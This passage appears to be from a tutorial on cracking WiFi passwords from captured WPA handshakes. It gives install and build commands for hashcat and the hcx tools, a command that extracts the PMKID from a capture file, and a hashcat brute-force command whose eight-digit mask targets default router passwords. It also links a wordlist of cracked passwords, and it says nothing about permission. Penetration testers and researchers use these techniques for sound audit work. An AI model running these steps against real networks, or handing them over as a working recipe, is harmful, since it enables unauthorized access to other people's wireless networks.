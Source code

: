 With the handshake files in our possession, we need to make sure our tools are installed. The below instructions are intended for use on Debian-based Linux distributions.

- Install hashcat: `sudo apt install -y hashcat`
- Build [hcxdumptool](https://github.com/ZerBea/hcxdumptool) - **not actually required, but useful to have if you're tinkering with WiFi attacks**
  ```bash
  git clone https://github.com/ZerBea/hcxdumptool.git
  cd hcxdumptool
  sudo apt install -y make gcc libpcap-dev # if not already installed
  make -j $(nproc)
  sudo make install
  ```
- Build [hcxtools](https://github.com/ZerBea/hcxtools)
  ```bash
  git clone https://github.com/ZerBea/hcxtools.git
  cd hcxtools
  sudo apt install -y openssl libssl-dev libz-dev libcurl4-openssl-dev 
  make -j $(nproc)
  sudo make install
  ```
- Build [hashcat-utils](https://github.com/hashcat/hashcat-utils)
  ```bash
  git clone https://github.com/hashcat/hashcat-utils.git
  cd hashcat-utils/bin
  make
  ```

Run the following command to extract the PMKID from the PCAP and save as a hashcat mode 22000 hash file: `~/hcxtools/hcxpcapngtool -o <name>.hc22000 <PCAP FILE>`

Now, run hashcat: `hashcat -m 22000 -a3 -w3 <name>.hc22000 '?d?d?d?d?d?d?d?d'`. You may be wondering about the `?d?d?d` part - that is a [mask](https://hashcat.net/wiki/doku.php?id=mask_attack) which tells hashcat the format of the string to brute force. In our case, the mask is eight integers - this is because the default password on most consumer WAPs is a string of eight integers. If you want to instead try a wordlist, try [this one](https://wpa-sec.stanev.org/dict/cracked.txt.gz) (see [wpa-sec.stanev.org](https://wpa-sec.stanev.org) for details)

After a few minutes (depending on how fast your machine is), the password should be cracked. 

